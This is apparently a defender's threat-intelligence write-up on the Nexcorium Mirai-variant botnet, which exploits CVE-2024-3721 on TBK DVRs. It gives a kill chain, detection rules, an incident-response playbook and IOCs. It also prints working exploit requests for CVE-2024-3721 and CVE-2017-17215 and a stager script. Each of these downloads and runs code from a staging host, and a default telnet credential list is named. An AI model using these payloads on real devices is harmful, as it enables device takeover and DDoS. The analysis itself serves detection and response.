

# Nexcorium — Mirai variant exploiting CVE-2024-3721 on TBK DVR-4104/-4216 (FortiGuard Labs, April 2026)

## TL;DR

FortiGuard Labs disclosed on 17 April 2026 (with broad echo from BleepingComputer, The Hacker News, Cyble and SecurityOnline through 30 April / 1 May) a new Mirai-class botnet operator branded **Nexcorium / Nexus Team** that mass-exploits **CVE-2024-3721** on TBK Vision DVR-4104 and DVR-4216 series digital video recorders. The vector is an unauthenticated OS command injection in `/device.rsp` reached via the special `___S_O_S_T_R_E_A_MAX___` parameter and weaponised through the `mdb` / `mdc` parameters. Once on the box, the payload downloads multi-architecture binaries prefixed `nexuscorp.<arch>` (ARM, MIPS R3000, x86-64, ARM32), persists through a hybrid systemd `persist.service` + crontab + `rc.local` chain, validates itself with an **FNV-1a** integrity hash (auto-renaming on tamper), decrypts its config with **XOR key `0x13`**, and contacts the C2 at `r3brqw3d.b0ats.top`. The botnet ships seven DDoS attack modules including a VSE Query Flood (Valve A2S_INFO) and a UDP Blast variant, and embeds a secondary self-propagation vector against Huawei HG532 routers via the well-known **CVE-2017-17215** SOAP UPnP injection. Operator branding rides in HTTP request headers (`X-Hacked-By: Nexus Team - Exploited By Erratic`) — passive intel goldmine for WAF telemetry. Observed scale: approximately 50,000 active devices, concentrated in China, India and Egypt with a long tail across the rest of Asia, Latin America and Africa.

## Attribution and confidence

- **Cluster name (FortiGuard):** Nexcorium. Operator self-brand inside the HTTP-request branding header: **Nexus Team**.
- **Aliases:** none widely standardised yet. The branding line attributes the build to the handle `Erratic`, which has not been correlated to a named individual.
- **Vendor that discovered:** FortiGuard Labs (technical write-up, 17 April 2026). Independent corroboration from BleepingComputer, The Hacker News, Cyble and SecurityOnline in the 30 April → 1 May window. CISA KEV listed CVE-2024-3721 on 28 April 2026 with FCEB deadline 19 May 2026.
- **Confidence:**
  - **high** for the technical attribution (FNV-1a integrity hash + XOR key `0x13` + `persist.service` unit + multi-arch `nexuscorp.*` filename prefix + branding header are byte-level reproducible across the captured samples)
  - **medium** for the operator identity. The cluster is identified by **branding** rather than by infrastructure or developer artefacts. There is no public link to a named e-crime crew or state-nexus.
- **Victimology:** generic IoT exposure — anyone running a TBK DVR-4104 / DVR-4216 (or one of the dozens of rebrands sold under names like Novo / CeNova / QSee / Pulnix / Securus / Night OWL) reachable from the internet on TCP/80 or TCP/8080. Sectors are incidental: small business, residential, ISP-managed CCTV deployments, municipal surveillance. Geography reflects e-commerce DVR distribution rather than targeted selection.
- **Genealogy / link with previous repo cases:** none direct. Conceptually adjacent to future entries on the Masjesu / XorBot IoT botnet (Trellix, April 2026) and the broader Mirai-class lineage. The branding-header tradecraft is reminiscent of `MOZI` and `Mirai_ptea` operator marketing.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Resource Development | T1583.001, T1588.005 | Operator stages multi-arch binaries on staging webservers, embeds CVE-2024-3721 + CVE-2017-17215 exploit primitives |
| Initial Access | T1190 | Unauthenticated OS command injection in `/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___` via `mdb`/`mdc` params (CVE-2024-3721, nominal CVSS 6.3 but unauth + root) |
| Execution | T1059.004, T1129 | Busybox shell command injection → `curl`/`wget` fetch of `nexuscorp.<arch>` → `chmod +x` → exec |
| Persistence | T1053.003, T1543.002, T1037.004 | systemd `persist.service` unit + crontab `@reboot` entry + `rc.local` append — three persistence anchors |
| Defense Evasion | T1027, T1027.009, T1036, T1070.004, T1480 | Config XOR with key `0x13`, FNV-1a self-integrity (auto-rename on tamper), masquerade as legitimate processes, log wipe |
| Discovery + Lateral Movement | T1046, T1018, T1210 | LAN scanner module + CVE-2017-17215 SOAP UPnP RCE against Huawei HG532 + telnet credential-brute (T1110) |
| Command and Control | T1071.001, T1095, T1568.001, T1573 | `r3brqw3d.b0ats.top` over TCP (port-rotating) — DGA-like subdomain |
| Impact | T1498, T1498.001, T1498.002 | DDoS attack modules: UDP, TCP-ACK, TCP-SYN, TCP-PSH, SMTP flood, VSE Query Flood (A2S_INFO), UDP Blast |



The diagram shows the victim DVR (left lane) progressing from external exploit through multi-arch payload execution to a triple-anchored persistence layer, followed by LAN propagation (CVE-2017-17215 + telnet brute-force) and DDoS impact. The Nexus Team operator cluster on the right details the branding header, the DGA-like C2 subdomain, the multi-arch binary prefix, and the FNV-1a integrity hash constants. Detection anchors at the bottom map to the Sigma WAF rule, the KQL `X-Hacked-By` hunt, the YARA ELF heuristic and the Suricata exploit signature.

## Stage-by-stage detail

### Resource Development

The operator stages binaries on cheap VPS or compromised webservers, sometimes the very same DVR fleet (using one bot as the file-mirror for the next wave). Filename prefixes are deterministic: `nexuscorp.arm`, `nexuscorp.mips`, `nexuscorp.x86_64`, `nexuscorp.arm32`, plus a build-info script `nexuscorp.sh` that selects the right arch at runtime. MITRE: `T1583.001`, `T1588.005`.

### Initial Access — CVE-2024-3721

The vulnerable endpoint is `/device.rsp` on the TBK DVR web administration interface. The original disclosure documents the magic-string parameter `___S_O_S_T_R_E_A_MAX___` as the routing path that takes the request through a code path which does not sanitise the `mdb` and `mdc` parameters before passing them to a Busybox shell:

```http
POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___ HTTP/1.1
Host: <target>
X-Hacked-By: Nexus Team - Exploited By Erratic
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 200

mdb=...;cd /tmp;rm -f .x;wget http://<staging>/nexuscorp.sh -O .x;chmod +x .x;./.x;&mdc=...
```

The CVSS 6.3 score under-rates the operational impact: the bug grants **unauthenticated root** on the device because the DVR firmware runs the web service as root. MITRE: `T1190`.

### Execution

The `nexuscorp.sh` selector decides arch via `uname -m` and falls back to a portable brute-fetch of every arch variant until one runs. After successful exec, the script deletes itself and overwrites the entry from shell history. MITRE: `T1059.004`, `T1129`.

```bash
#!/bin/sh
ARCH=$(uname -m 2>/dev/null)
URL="http://<staging>/nexuscorp"
case "$ARCH" in
  armv7l|armv6l) F="${URL}.arm" ;;
  mips|mipsel)   F="${URL}.mips" ;;
  x86_64|amd64)  F="${URL}.x86_64" ;;
  i686|i386)     F="${URL}.x86" ;;
  arm)           F="${URL}.arm32" ;;
  *)             for f in "${URL}.arm" "${URL}.mips" "${URL}.x86_64" "${URL}.arm32"; do
                   wget -q -O /tmp/.b "$f" && chmod +x /tmp/.b && /tmp/.b && break
                 done; exit 0 ;;
esac
wget -q -O /tmp/.b "$F" && chmod +x /tmp/.b && /tmp/.b
rm -f /tmp/.b "$0"
```

### Persistence — three anchors

Nexcorium plants three independent persistence anchors so that disabling one does not eject the implant:

1. **systemd unit** `/etc/systemd/system/persist.service` enabled on default target. Service body invokes the on-disk binary path under `/usr/sbin/.cache/.nexuscorp` (or wherever the FNV-1a check landed it).
2. **crontab** entry for the running user (often `root` on these devices) — `@reboot /usr/sbin/.cache/.nexuscorp >/dev/null 2>&1`.
3. **rc.local** append (legacy SysV path still honoured by Busybox init) — same invocation line.

```bash
# Triage anchor — three places a defender must check
systemctl list-unit-files --state=enabled | grep persist
crontab -l -u root | grep -E 'nexuscorp|/tmp/\.[a-z]+'
grep -E 'nexuscorp|@reboot' /etc/rc.local /etc/init.d/* 2>/dev/null
```

MITRE: `T1053.003`, `T1543.002`, `T1037.004`.

### Defense Evasion — config XOR `0x13` + FNV-1a self-integrity

The configuration blob (C2 hostname, attack-mode flags, port lists, kill-list of competing botnets) is XOR-encrypted with the single-byte key `0x13`. The decoding loop is the classic Mirai pattern:

```c
for (size_t i = 0; i < len; i++) cfg[i] ^= 0x13;
```

The novelty is the **FNV-1a integrity hash**. On startup, the binary computes FNV-1a over its own image (constants `0x811C9DC5` for the offset basis and `0x01000193` for the prime). If the hash diverges from the embedded expected value, the binary **renames itself** to a randomised dot-file name and re-execs — a poor-man's anti-tamper that defeats naïve file-replacement defenses. MITRE: `T1027`, `T1027.009`.

```c
uint32_t fnv1a32(const uint8_t *buf, size_t len) {
    uint32_t h = 0x811C9DC5;          // offset basis
    for (size_t i = 0; i < len; i++) {
        h ^= buf[i];
        h *= 0x01000193;              // FNV prime
    }
    return h;
}
```

### Discovery and Lateral Movement

A dedicated worker thread runs a SYN scanner across `/8` blocks at low rate (200 pps default) and a credential-brute against telnet (TCP/23) using a hardcoded 60-tuple list (`root:root`, `admin:admin`, `vstarcam2015`, `xc3511`, etc.). When a Huawei HG532 router is fingerprinted by banner, the implant **switches to the CVE-2017-17215 SOAP UPnP RCE path** rather than wasting time on the telnet brute. MITRE: `T1046`, `T1018`, `T1210`, `T1110`.

```http
POST /ctrlt/DeviceUpgrade_1 HTTP/1.1
Host: <target>:37215
SOAPAction: "urn:schemas-upnp-org:service:WANPPPConnection:1#GetExternalIPAddress"
Content-Type: text/xml; charset="utf-8"
Content-Length: ...

<?xml version="1.0" ?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
    <NewStatusURL>;wget http://<staging>/nexuscorp.sh -O- | sh;</NewStatusURL>
    <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade></s:Body>
</s:Envelope>
```

### Command and Control

The implant resolves `r3brqw3d.b0ats.top` (a DGA-shaped subdomain under a stable parent zone) and dials out on a port from a hardcoded rotation list (5050, 55988, 8889, 33333). The channel is plain TCP; payloads are XOR-`0x13`-encrypted on the wire with a binary tag-length-value framing. MITRE: `T1071.001`, `T1095`, `T1568.001`, `T1573`.

### Impact — seven DDoS modules

The operator-side panel issues commands of the shape `attack <mode> <target> <duration>`. Modules implemented in this build:

| Module | MITRE | Description |
|---|---|---|
| UDP flood | T1498.001 | Generic UDP packet flood (random payload) |
| TCP-ACK flood | T1498.001 | Volumetric ACK packets, no connection state |
| TCP-SYN flood | T1498.001 | SYN with random source ports, exhaust SYN backlog |
| TCP-PSH flood | T1498.001 | PSH+ACK with payload, defeats some flow-anomaly filters |
| SMTP flood | T1498.001 | TCP/25 connection burst |
| VSE Query Flood | T1498.002 | Valve A2S_INFO (`bb_query`) reflective amplification |
| UDP Blast | T1498.001 | Tight-loop UDP burst with large payloads |

## RE notes

No SHA256 anchors are pinned in the public FortiGuard write-up at the time of this entry; pulling them from MalwareBazaar / VirusTotal feeds is appropriate. Operational reverser pointers:

| Component | Lang / build | Notes |
|---|---|---|
| `nexuscorp.<arch>` | C, static musl / glibc, stripped | Mirai-class layout. Anti-tamper via FNV-1a self-hash. Config XOR `0x13`. `prctl(PR_SET_NAME, "[kworker/0:0]")` masquerade |
| `nexuscorp.sh` | POSIX shell | Arch selector; brute-fetch fallback; deletes itself on exit |
| `persist.service` | systemd unit | Enable-on-startup wrapper around the implant |

Pointers:

- **FNV-1a constants `0x811C9DC5` and `0x01000193`** are unique enough to anchor a YARA rule on the `.text` immediate values without false positives outside the Mirai-class family.
- **Branding header** `X-Hacked-By: Nexus Team - Exploited By Erratic` appears in *every* exploit request observed in the wild — passive WAF intel.
- **`nexuscorp.*` filename pattern** is a robust YARA filename-attribute filter when scanning a triage image.
- **`bb_query` symbol** (the Valve A2S_INFO query builder) is a recognisable string for the VSE flood module — combine with `A2S_INFO` and `Source Engine Query` for high-confidence labelling.
- **No packer**, plain stripped ELFs.

## Detection strategy

### Telemetry that matters

- **WAF / reverse proxy access logs** — POST requests to `/device.rsp` with `opt=sys` AND `cmd=___S_O_S_T_R_E_A_MAX___` (Sigma + Suricata + KQL anchors below).
- **Edge / perimeter NetFlow** — outbound TCP from a CCTV VLAN (or any IoT-class VLAN that has no business reaching the public internet on weird ports) to ports 23, 2323, 37215, 8080, 80 on public IPs is a strong post-exploitation signal.
- **Passive DNS** — resolutions for `r3brqw3d.b0ats.top` or any A record under `*.b0ats.top` from inside the network.
- **Linux EDR / auditd** — `execve` for `wget` / `curl` invoked by `busybox httpd` or by the DVR's web-server process; new systemd unit files written to `/etc/systemd/system/`; crontab modifications to `root`.
- **WAF response logs** — incoming requests with the `X-Hacked-By: Nexus Team` header (passive intel — somebody else is exploiting you, or the attacker is testing).

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [`sigma/nexcorium_tbk_dvr_exploit.yml`](./sigma/nexcorium_tbk_dvr_exploit.yml) | WAF / IIS / NGINX access log — POST `/device.rsp` with `cmd=___S_O_S_T_R_E_A_MAX___` + `mdb`/`mdc` payload markers + branding header |
| KQL (Sentinel / Defender) | [`kql/x_hacked_by_waf.kql`](./kql/x_hacked_by_waf.kql) | `X-Hacked-By: Nexus Team` header in WAF / IIS logs — passive observation of exploitation attempts against the perimeter |
| YARA | [`yara/Nexcorium_Mirai_Variant_2026.yar`](./yara/Nexcorium_Mirai_Variant_2026.yar) | ELF + FNV-1a constants `0x811C9DC5` / `0x01000193` + XOR `0x13` byte loop + `bb_query` (VSE) + `nexuscorp` self-name + HG532 SOAP fragments |
| Suricata | [`suricata/nexcorium.rules`](./suricata/nexcorium.rules) | sids 5050001-5050002 — POST `/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___` + branding header |

### Threat hunting hypotheses

- **H1 — DVR egress to commodity / botnet ports.** Any device tagged as `CCTV` or `DVR` in CMDB / asset inventory that initiates outbound TCP to ports 23, 2323, 37215, 80, 8080 on public IPs. Expected benign: zero — DVRs only need outbound DNS, NTP and (sometimes) vendor-cloud HTTPS. Suspect: a CCTV VLAN suddenly scanning the internet on 23 / 37215 is post-exploitation activity.
- **H2 — Passive `X-Hacked-By` observation in WAF logs.** Even when the target is not vulnerable, exploitation attempts arrive at the perimeter with the branding header. Tracking this gives early warning of fresh internet-wide scans and lets the SOC dust off the CCTV / DVR asset inventory before patches drop.
- **H3 — DNS resolution of `*.b0ats.top` from inside the network.** Any internal host (server or workstation) resolving that parent zone is a high-signal pivot for a Nexcorium-infected DVR talking out — or for a desktop endpoint hosting test code.

## Incident response playbook

### First 60 minutes (triage)

1. **Identify the device class.** Map source IP of WAF hits / outbound NetFlow to the asset inventory. If the device is a TBK DVR-4104 / -4216 (or one of the dozens of rebrands), assume CVE-2024-3721 exploitation as the entry vector.
2. **Do NOT reboot the DVR.** IoT triage differs from Windows DFIR: persistence anchors are durable across reboots, but **the in-memory implant context** (live C2 socket, currently executing attack module, scanner state) is lost on reboot. Capture first, reboot last.
3. **Capture volatile artefacts** via the device shell (telnet / SSH if available) or via vendor diagnostic console:
   ```bash
   ps -ef
   ls -la /proc/<suspect_pid>/
   cat /proc/<suspect_pid>/exe > /tmp/exe.dump
   cat /proc/<suspect_pid>/maps > /tmp/maps.txt
   cat /proc/<suspect_pid>/cmdline | tr '\0' ' '
   netstat -anp | grep -v 127.0.0.1
   ss -tunp
   ls -la /tmp/ /var/tmp/
   crontab -l
   cat /etc/rc.local /etc/init.d/* 2>/dev/null
   systemctl list-unit-files --state=enabled | grep persist
   ```
4. **Quarantine at the switch** (NAC / ACL) — do not let the DVR continue to scan internally or DDoS externally.
5. **Block egress** to `*.b0ats.top` and the rotation port list (5050, 55988, 8889, 33333) at the perimeter firewall.

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| Process executable | `/proc/<pid>/exe` | `cat > dump.bin` | Live implant binary for YARA + reverse engineering |
| Process memory maps | `/proc/<pid>/maps` | `cat > maps.txt` | Layout including XOR'd config region |
| systemd unit | `/etc/systemd/system/persist.service` | `cp` | Persistence anchor 1 |
| Crontab | `/var/spool/cron/crontabs/root` (Busybox) or `/etc/crontab` | `cp` | Persistence anchor 2 |
| `rc.local` | `/etc/rc.local` | `cp` | Persistence anchor 3 |
| `/tmp` snapshot | `/tmp/` and `/var/tmp/` | `tar czf` | Stager scripts, intermediate fetched binaries |
| `dmesg` ring | live | `dmesg > dmesg.txt` | Recent module loads or driver events |
| WAF / proxy logs | per platform | SIEM export | The `X-Hacked-By` header trail + exploit request body |
| NetFlow / PCAP | edge device | `tcpdump -i any -w cap.pcap` | C2 traffic + scanner traffic + DDoS bursts |
| Firmware blob | `/dev/mtdblock*` | `dd if=... of=fw.bin` | Persistent flash-resident modifications (rare in Nexcorium, common in firmware-implant cousins) |

### IR queries and commands

```bash
# Hash the live binary
sha256sum /tmp/exe.dump

# Identify which arch we are dealing with
file /tmp/exe.dump

# Pull C2 strings after XOR-0x13 decode (Python)
python3 -c "
import sys, re
data = open(sys.argv[1], 'rb').read()
decoded = bytes(b ^ 0x13 for b in data)
for m in re.findall(rb'[a-z0-9][a-z0-9\.\-]{6,}\.[a-z]{2,6}', decoded):
    print(m.decode())
" /tmp/exe.dump | sort -u | head -50
```

```kql
// Sentinel / Defender XDR — first-seen X-Hacked-By passive observation
union W3CIISLog, AzureDiagnostics
| where TimeGenerated > ago(7d)
| where csReferer has "Nexus Team" or csUserAgent has "Nexus Team"
       or RequestHeader_s has "Nexus Team"
| summarize attempts = count(),
            first = min(TimeGenerated),
            last  = max(TimeGenerated)
    by ClientIP_s, csUriStem, csHost
| where attempts > 0
| order by last desc
```

```bash
# Suricata fast pcap replay against the day rules
suricata -r capture.pcap \
    -S days/2026-05-02_Nexcorium-TBK-DVR-CVE-2024-3721/suricata/nexcorium.rules \
    -k none -l /tmp/suri_out
```

### Containment, eradication, recovery

- **Containment.** NAC / ACL on the DVR VLAN; perimeter block of `*.b0ats.top` and the port rotation list; WAF rule that returns 403 on POST `/device.rsp` with `cmd=___S_O_S_T_R_E_A_MAX___`.
- **Eradication.** **Factory reset + reflash vendor firmware** is the only reliable cure: three persistence anchors plus the FNV-1a integrity hash that auto-renames the binary make on-device cleaning unreliable. If the device is **EOL** (most TBK rebrands are — the vendor has not shipped firmware updates in years), **retire and replace**. Do not keep an EOL DVR exposed to the internet under any circumstance.
- **Recovery.** After reflash, place every CCTV / DVR / IP camera behind a reverse-proxy or VPN, never on the public internet directly. Lock the admin web interface to LAN only. Patch CVE-2017-17215 on any adjacent Huawei HG532 hops, or replace those too.
- **What NOT to do.**
  - Do not reboot before volatile capture — you lose the in-memory C2 state and any live attack-module configuration.
  - Do not assume a single `rm -f` of the binary cleans the device — FNV-1a self-rename means it reappears under a randomised dot-file name.
  - Do not put the rebuilt DVR back on the public internet on the same IP without a reverse proxy. The exploit traffic is permanent background noise on the internet now.

### Recovery validation

- Seven days without outbound TCP from the DVR VLAN to non-DNS / non-NTP / non-vendor-cloud destinations.
- Seven days without WAF hits matching the Sigma rule on the perimeter.
- DNS audit shows no resolutions of `*.b0ats.top` from inside the network.
- DVR firmware version matches the latest vendor release (or the device has been retired).
- Adjacent Huawei HG532 / GPON / Netgear gear has been patched against CVE-2017-17215 and the family of similar SOAP UPnP RCEs.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| cve | CVE-2024-3721 | TBK DVR-4104 / -4216 OS command injection — primary vector | high | FortiGuard |
| cve | CVE-2017-17215 | Huawei HG532 SOAP UPnP — secondary self-propagation vector | high | FortiGuard |
| domain | `r3brqw3d.b0ats.top` | C2 (DGA-like subdomain) | high | FortiGuard |
| header | `X-Hacked-By: Nexus Team - Exploited By Erratic` | Branding header in exploit traffic | high | FortiGuard |
| ttp | `POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___` | Exploit URI | high | FortiGuard |
| filename | `nexuscorp.<arch>` | Multi-arch build prefix (ARM / MIPS / x86_64 / ARM32) | high | FortiGuard |
| ttp | FNV-1a self-integrity (constants `0x811C9DC5` / `0x01000193`) | Anti-tamper auto-rename | high | FortiGuard |
| ttp | `persist.service` systemd unit + crontab hybrid + `rc.local` | Triple persistence anchor | high | FortiGuard |
| ttp | VSE Query Flood (`bb_query` / Valve A2S_INFO) | DDoS module fingerprint | high | FortiGuard |
| string | `nexuscorp` | Self-name marker embedded in binary | high | FortiGuard |
| port | 5050, 55988, 8889, 33333 | C2 destination port rotation list | medium | FortiGuard |

Full list lives in [`iocs.csv`](./iocs.csv). No SHA256 anchors are pinned in this folder — pull from MalwareBazaar or VirusTotal once the family tag stabilises.

## Secondary findings

- **Drift Protocol — DPRK Lazarus / TraderTraitor $286M heist (Elliptic + TRM Labs + Chainalysis, late April 2026).** Six-month social-engineering campaign against Drift Security Council members; abuse of Solana `durable nonces`; whitelist injection of fake `CVT` token; laundering layered Solana → CCTP → ETH → Tornado / Wormhole. Operational deployment in Pyongyang local-time windows. Highest-value DeFi heist of Q2 2026.
- **KidsProtect — rebrandable Android Spyware-as-a-Service (Certo, 1 May 2026).** Disguises as `WiFi Service`, abuses Accessibility Service + Device Admin + BootReceiver. White-label model means a single underlying codebase ships under dozens of brand names; defender impact is the same primitive stack as Albiriox / Anatsa / BingoMod despite the different commercial framing.
- **CISA KEV (30 April 2026) additions.** SimpleHelp CVE-2024-57726 / CVE-2024-57728 (DragonForce precursor); Samsung MagicINFO 9 CVE-2024-7399; D-Link DIR-823X CVE-2025-29635 (variant Mirai `tuxnokill`). FCEB deadline 8 May 2026.
- **Ubuntu / Canonical DDoS (1 May 2026).** Hacktivist event; update mirrors affected during the window. Operationally symptomatic of the Nexcorium-class risk: a botnet built on EOL IoT devices is one panel-command away from being aimed at a critical-infrastructure update path.

## Pedagogical anchors

- **IoT triage is not Windows DFIR.** Do not reboot before volatile capture. The persistence anchors survive reboots; the in-memory C2 state does not.
- **Three persistence anchors are the new normal.** Defenders that check one (systemd) and not the others (crontab, `rc.local`) miss the cure. Always sweep all three.
- **Branding headers are passive intel goldmines.** The `X-Hacked-By` header lets you see exploitation attempts against your perimeter even when you are not vulnerable. Build a permanent passive hunt.
- **EOL hardware on the public internet is not patchable.** Detection rules document the problem; the *fix* is asset retirement + reverse proxy / VPN access only. Tell the asset owner the DVR cannot stay where it is.
- **Generic Mirai-class lineage is still the bread-and-butter of internet noise.** Modern detections still pay rent: anchor on FNV-1a constants, XOR `0x13` decode loops, `bb_query` (VSE) symbol and Mirai-style scanner port lists. These travel from family to family with low churn.

## What's in this folder

| File | Purpose |
|---|---|
| [`README.md`](./README.md) | This case write-up |
| [`kill_chain.svg`](./kill_chain.svg) | Nexcorium kill-chain diagram, light / dark adaptive |
| [`iocs.csv`](./iocs.csv) | Machine-readable IOC list |
| [`sigma/nexcorium_tbk_dvr_exploit.yml`](./sigma/nexcorium_tbk_dvr_exploit.yml) | Sigma — WAF / access-log POST `/device.rsp` with `___S_O_S_T_R_E_A_MAX___` + branding header |
| [`kql/x_hacked_by_waf.kql`](./kql/x_hacked_by_waf.kql) | KQL — passive observation of `X-Hacked-By: Nexus Team` in WAF / IIS logs |
| [`yara/Nexcorium_Mirai_Variant_2026.yar`](./yara/Nexcorium_Mirai_Variant_2026.yar) | YARA — ELF + FNV-1a constants + XOR `0x13` loop + VSE `bb_query` + `nexuscorp` self-name |
| [`suricata/nexcorium.rules`](./suricata/nexcorium.rules) | Suricata 7.x — sids 5050001 / 5050002 — exploit URI + branding header |

## Sources

- [FortiGuard Labs — Nexcorium: A New Mirai Variant Exploiting TBK DVR CVE-2024-3721](https://www.fortinet.com/blog/threat-research/nexcorium-mirai-variant-tbk-dvr-cve-2024-3721)
- [BleepingComputer — Nexus Team botnet hijacks TBK DVRs for DDoS](https://www.bleepingcomputer.com/news/security/new-nexcorium-botnet-targets-tbk-dvrs-via-cve-2024-3721/)
- [The Hacker News — Nexcorium Mirai variant compromises 50,000 IoT devices](https://thehackernews.com/2026/04/nexcorium-mirai-variant-iot-botnet.html)
- [Cyble — Threat Intel Report: Nexus Team DDoS botnet on TBK DVRs](https://cyble.com/blog/nexus-team-tbk-dvr-botnet/)
- [CISA KEV — CVE-2024-3721 added 28 April 2026 (FCEB deadline 19 May 2026)](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- [Huawei PSIRT — HG532 CVE-2017-17215 advisory](https://www.huawei.com/en/psirt/security-advisories/huawei-sa-20171130-01-hg532)
- [MITRE ATT&CK — T1498 Network Denial of Service](https://attack.mitre.org/techniques/T1498/)
- [MITRE ATT&CK — T1190 Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
